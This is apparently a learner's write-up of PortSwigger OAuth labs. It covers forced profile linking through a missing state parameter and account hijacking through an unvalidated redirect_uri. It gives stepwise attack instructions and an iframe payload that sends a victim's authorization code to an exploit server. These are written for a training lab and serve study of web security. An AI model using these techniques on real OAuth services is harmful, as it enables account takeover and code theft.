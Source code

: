 7. Deliver the exploit to the victim. When their browser loads the `iframe`, it will complete the OAuth flow using your social media profile, attaching it to the admin account on the blog website. Go back to the blog website and select the "Log in with social media" option again. Observe that you are instantly logged in as the admin user. Go to the admin panel and delete `carlos` to solve the lab.

**Workflow**:
1. no `state` param is implemented, that means that no protection against CSRF is in place
	![](Pasted%20image%2020241215221943.png)

2. after linking a social media profile to our account, log out and connect trough social media again but this time intercept the request with proxy until the client code is received (drop the request afterwards in order to have a valid code - don t use it)
	![](Pasted%20image%2020241215222155.png)
3. deliver the payload using the above URL containing our intercepted code--> when the victim(admin in our case) will open this iframe URL, our social media profile will be linked instead to his session (when will choose to log in with social media profile again we will observe that we forced a profile linking to an admin account)
	![](Pasted%20image%2020241215222841.png)


## 3. OAuth account hijacking via redirect_uri
This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete the user `carlos`. The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service. 

You can log in with your own social media account using the following credentials: `wiener:peter`.

**Analysis**:
1. While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website. Log out and then log back in again. Observe that you are logged in instantly this time. As you still had an active session with the OAuth service, you didn't need to enter your credentials again to authenticate yourself.
2. In Burp, study the OAuth flow in the proxy history and identify the **most recent** authorization request. This should start with `GET /auth?client_id=[...]`. Notice that when this request is sent, you are immediately redirected to the `redirect_uri` along with the authorization code in the query string. Send this authorization request to Burp Repeater.
3. In Burp Repeater, observe that you can submit any arbitrary value as the `redirect_uri` without encountering an error. Notice that your input is used to generate the redirect in the response. Change the `redirect_uri` to point to the exploit server, then send the request and follow the redirect. Go to the exploit server's access log and observe that there is a log entry containing an authorization code. This confirms that you can leak authorization codes to an external domain.
4. Go back to the exploit server and create the following `iframe` at `/exploit`:
    `<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>`
5. Store the exploit and click "View exploit". Check that your `iframe` loads and then check the exploit server's access log. If everything is working correctly, you should see another request with a leaked code. Deliver the exploit to the victim, then go back to the access log and copy the victim's code from the resulting request.
6. Log out of the blog website and then use the stolen code to navigate to:
    `https://YOUR-LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE`
